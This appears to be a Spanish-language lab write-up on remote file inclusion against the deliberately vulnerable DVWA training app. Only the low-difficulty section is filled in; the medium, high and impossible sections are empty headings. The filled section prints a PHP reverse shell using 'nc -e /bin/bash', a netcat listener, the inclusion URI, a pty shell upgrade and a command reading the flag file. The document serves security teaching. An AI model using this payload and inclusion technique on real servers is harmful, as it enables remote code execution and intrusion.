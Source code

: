 # RFI

Remote file inclusion (RFI) es una vulnerabilidad que permite a un atacante incluir archivos de un servidor remoto. Esto puede ser utilizado para incluir archivos PHP, que luego pueden ser utilizados para ejecutar código arbitrario en el servidor.

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi.png)

## Medio

## Alto

## Imposible

